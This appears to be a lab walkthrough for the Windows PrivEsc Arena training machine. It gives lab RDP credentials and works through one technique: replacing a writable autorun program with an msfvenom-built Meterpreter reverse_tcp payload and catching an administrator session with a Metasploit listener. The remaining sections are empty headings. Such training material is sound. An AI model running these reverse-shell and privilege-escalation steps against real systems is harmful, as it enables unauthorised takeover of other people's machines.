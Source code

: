 # Windows PrivEsc Arena

<img width="1902" height="361" alt="image" src="https://github.com/user-attachments/assets/96706b9f-7faa-4ad5-8d3f-965cd8c67d44" />

---

>[!important]
> ### Let's first connect to the machine.  RDP is open on port 3389.  Your credentials are:
> #### **`username`** : user
> #### **`password`** : password321
>
> ### `For any administrative actions you might take, your credentials are:`
> #### **`username`** : TCM
> #### **`password`** : Hacker123
>

---

>[!warning]
> ### Connect To Target
> ```ruby
> xfreerdp3 /u:user /p:password321 /cert:ignore /v:10.10.103.25
> ```
> **`Or`**
>
>```ruby
> rdesktop 10.10.103.25 -u user -p password321
>```

---

<details>
  <summary>Registry Escalation</summary>





- <details>
      <summary>Autorun</summary>





Windows Privilege Escalation: Insecure Autorun Permissions
==========================================================

This guide demonstrates a privilege escalation technique by exploiting an executable in an autorun location that has insecure file permissions. The goal is to replace the legitimate program with a malicious payload, which will be executed with higher privileges when an administrator logs in.

🕵️‍♂️ Detection
----------------

First, we need to identify the vulnerable autorun program and confirm its weak permissions.

1.  Scan for Autorun Programs

    Open a command prompt on the Windows VM and run Autoruns to inspect programs that launch on startup.

    

    ```DOS
    C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

    ```

2.  Inspect Logon Items

    In the Autoruns window, click on the Logon tab to see all applications that run when a user logs in.

3.  Identify the Target Program

    From the list, notice the "My Program" entry. Observe that it points to the following executable:

    ```
    C:\Program Files\Autorun Program\program.exe

    ```

4.  Check File Permissions

    Return to the command prompt and use accesschk64.exe to check the permissions on the program's directory.

    

    ```DOS
    C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

    ```

5.  Confirm the Vulnerability

    The output will show that the Everyone user group has ``FILE_ALL_ACCESS`` permission. This is the vulnerability, as it means any user can modify or replace the program.exe file.

💥 Exploitation
---------------

The exploitation process involves creating a malicious payload, setting up a listener to receive the connection, and replacing the original executable.

### 1\. Setting Up the Listener & Payload (Kali VM)

First, we will use the Metasploit Framework to create a reverse shell payload and a listener to catch the connection.

1.  **Start Metasploit**

    

    ```Bash
    msfconsole

    ```

2.  Configure the Multi/Handler

    This module will listen for the incoming connection from our payload.

    

    ```Ruby
    msf6 > use multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>

    ```

3.  Start the Listener

    The listener will now wait for a connection.

    

    ```Ruby
    msf6 exploit(multi/handler) > run

    ```

4.  Generate the Malicious Payload

    Open a new terminal window on your Kali VM. Use msfvenom to create a malicious program.exe that will connect back to your listener.

    

    ```Bash
    msfvenom -p windows/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f exe -o program.exe

    ```

5.  Transfer the Payload

    Copy the newly generated program.exe file from your Kali VM to the Windows VM's desktop.

### 2\. Planting the Payload (Windows VM)

1.  On the Windows VM, replace the original program with your malicious payload. You can do this via the command line or file explorer:

    

    ```DOS
    move C:\Users\User\Desktop\program.exe "C:\Program Files\Autorun Program\program.exe"

    ```

    *(Confirm overwrite if prompted)*

2.  To trigger the exploit, you must simulate the condition under which the program runs with elevated privileges. **Log off** from the current user session and then **log back on as an administrator**.

✅ Gaining Access & Verification
-------------------------------

When the administrator logs in, the malicious `program.exe` will execute and connect back to your listener on the Kali VM.

1.  Catch the Session

    In your Metasploit terminal, you will see a new session being created.

    ```
    [*] Meterpreter session 1 opened (...)

    ```

2.  Interact with the Session

    Enter the new session using its ID.

    

    ```Ruby
    msf6 exploit(multi/handler) > sessions -i 1

    ```

3.  Verify Privileges

    To confirm that the attack was successful and you have escalated privileges, run the getuid command. The output should show that you are running as the administrator user.

    

    ```Ruby
    meterpreter > getuid

    ```






  </details>




- <details>
      <summary>AlwaysInstallElevated</summary>
  </details>





  
</details>













<details>
  <summary>Service Escalation</summary>






- <details>
      <summary>Registry</summary>
  </details>


- <details>
      <summary>Executable Files</summary>
  </details>


- <details>
      <summary> DLL Hijacking</summary>
  </details>


- <details>
      <summary>binPath</summary>
  </details>


- <details>
      <summary>Unquoted Service Paths</summary>
  </details>
  
  
  
  






  
</details>
















<details>
  <summary>Privilege Escalation - Startup Applications</summary>
</details>


<details>
  <summary>Potato Escalation - Hot Potato</summary>
</details>








<details>
  <summary>Password Mining Escalation</summary>





- <details>
      <summary> Configuration Files</summary>
  </details>



- <details>
      <summary>Memory</summary>
  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>
</details>












